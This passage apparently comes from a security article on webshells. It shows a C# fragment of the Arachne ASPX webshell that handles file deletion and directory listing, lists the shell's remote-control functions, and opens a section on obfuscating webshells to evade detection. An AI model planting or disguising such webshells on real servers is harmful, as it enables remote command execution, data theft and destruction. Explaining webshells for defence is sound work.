 ```
                        }
                        break;
                    case "rm":
                        response = tasking[0] + "|" + RemoveFile(System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(tasking[2])));
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
                    case "ls":
                        response = tasking[0] + "|" + ListDirectory(System.Text.Encoding.UTF8.GetString(Convert.FromBase64String(tasking[2])));
                        if (Psk != "") 
                        {
                            task_response.Text = Encrypt(response);
                        }
                        else 
                        {
                            task_response.Text = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(response));
                        }
                        break;
```

Code: [Arachne ASPX Shell](https://github.com/MythicAgents/arachne/blob/main/Payload_Type/arachne/arachne/agent_code/arachne.aspx){:target="_blank"}

In the code you can see calls to the following functions:

-   **`Shell`** → Executes system commands and returns the output.
-   **`Download`** → Reads and returns the content of a specified file.
-   **`CheckIn`** → Sends a response confirming the WebShell is active.
-   **`CurrentDirectory`** → Retrieves the current working directory.
-   **`ChangeDirectory`** → Changes the working directory.
-   **`RemoveFile`** → Deletes a specified file.
-   **`ListDirectory`** → Lists the contents of a directory.

Of course, it should be noted that the shell command is not stealthy.

## Obfuscate Webshells

To evade detection by security tools and analysts, attackers often employ obfuscation techniques. Obfuscation disguises the code, making it harder to detect and analyze while maintaining its malicious functionality. Some simple examples are:

* String Encoding and Concatenation
